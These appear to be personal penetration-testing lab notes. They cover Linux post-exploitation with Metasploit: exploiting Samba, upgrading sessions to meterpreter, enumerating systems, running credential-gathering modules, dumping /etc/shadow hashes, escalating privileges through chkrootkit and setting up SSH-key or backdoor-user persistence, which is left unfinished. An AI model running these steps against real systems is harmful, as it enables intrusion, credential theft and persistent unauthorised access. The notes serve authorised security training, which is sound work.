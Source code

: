 
![[Pasted image 20230830164328.png]] 

##### Upgrade shell session to meterpreter session 
1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability: 
		 - `search samba`  -->  `use exploit/Linux/samba/is_known_pipename `
		 - `pwd` 
		 - `put session in the background` 
6) upgrade shell session to meterpreter session: `sessions -u 1` 
7) sessions 2 (this is now your meterpreter session )
 `

##### Enumerate the system: 
1)  `/bin/bash -i

- `cat /etc/passwd`:
    - Gather information about user accounts, helping to identify potential targets or user management weaknesses.
- `groups root`:
    - Determine the groups to which the "root" user belongs, revealing privileges and access levels for understanding vulnerabilities.
- `cat /etc/*issue*`:
    - Identify the OS and version, aiding in selecting specific exploits or attack vectors tailored to the detected OS.
- `ip a s`:
    - Understand network interfaces and configurations, identifying entry points or routes for attacks and subnet information for network pivoting.
- `netstat -antp`:
    - View active network connections and associated processes, detecting suspicious or unauthorized connections indicating security issues.
- `ps aux`:
    - See active processes, potentially identifying vulnerabilities or unauthorized processes for exploitation or lateral movement.
- `env`:
    - Display environment variables, helping to understand session configurations, privileges, and identifying sensitive information affecting application behavior. Useful for identifying potential attack surfaces.


##### post exploitation modules 
- Enumerate configuration files on linux system: 
	- `search enum_configs` 
		- `use post/linux/gather/enum_configs` 
		- set session to meterpreter session on target 
		- `loot` 
		- `cat [path] ` (identify the shells that are on the system)

- gather environment settings 
	- `use post/multi/gather/env` 
	- `session` (set session to meterpreter session)
	- `run` 

- gather network information 
	- `use post/linux/gather/enum_network` 
	- `session` (set session to meterpreter session)
	- `run` 
	- `loot` (get al the information)
		- enumerate  information:  copy file path and: `cath path` `

- check protection systems on linux system (security features) 
	- `use post/linux/gather/enum_protection` 
		- set session to meterpreter session 
	- notes: here will al important notes are stored 

- system enumeration 
	- `use post/linux/gather/enum_system`
	- see installed packages: `loot` -> `cat [path]`


- check if target is a vm or container 
	- `search checkcointainer `
		- `use post/linux/gather/checkcontainer`  (if you are in a container- you need container-breakout to get access to host system that is hosting the container)
	- `search checkvm` 
		- `use post/linux/gather/checkvm` 

- enumerate users history
	- `search enum_users_history` 
		- `use post/linux/gather/enum_users_history`  (stores logs of commands)
		- `loot`  -> `cat` content file 

- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections
- post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history
- post/multi/manage/system_session
- post/linux/manage/download_exec
  
  
### Linux Privilege escalation - Exploiting A vulnerable program 

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability:  
	1) `search ssh_login`
	2) `use auxiliary/scanner/ssh/ssh_login `
	3) use ssh credentials 
	4) /bin/bash -i 
6) upgrade session 1 (shel) to meterpreter session: `sessions -u 1` 
7) open shell session on meterpreter 
8) user enumeration: `cat /etc/passwd `
9) find a vulnerable process so we can elevate our privileges: `ps aux` 
10) look at the root user: to find out more about binary/script: `cat [command]`
![[Pasted image 20230830210745.png]]
11) Find out where the chkrootkit script is stored: command -v chkrootkit
13) check version of chrootkit: ` [path] chrootkit -V `
go into meterpreter and exploit chkrootkit (exploit/unix/local/chrootkit) 

![[Pasted image 20230830215050.png]]














### Dumping Hashes with Hashdump 

- we can dump linux user hashes with the hashdump post exploitation module 
- Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges 
- the hashdump module can be used to dump the user account hashes from the **/etc/shadow** file and can also be used to unshadow the hashes for password cracking with John the ripper 



1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) abuse the samba vulnerability (`samba/is_known_pipename`)
6) upgrade the session (shell -> meterpreter)
7) enumeration: sysinfo getuid 
8) search hashdump module (`use post/linux/gather/hashdump`)
9) run the module and use loot command to find the results 
	1) cat the password file  (Contains user account information, like usernames, home directories, and shells.)
	2) cat the shadow file (Stores user password hashes and account security settings)
	3) cat unshadowed file


- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence


(lab maken)











### Establishing persistence on Linux 

- distribution release system matters in post exploitation persistence 

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) set up command shell exploiting the ssh with `ssh_login` module 
6) upgrade the shell to get a meterpreter session 
7) Elevate privileges using the CHK rootkit 
	1) `use local/chkrootkit ` (set options, chkrootkit /bin/chkrootkit, sessions to meterpreter session)
		2) put shell in background 
8) Upgrade the session acquired through chk rootkit module 
	1) /bin/bash -i      whoami

##### manual: create backdoor user to give us access 
This technique can be used when target is running ssh or remote access protocol

- cat etc/password 
- create backdoor user: 
	- 



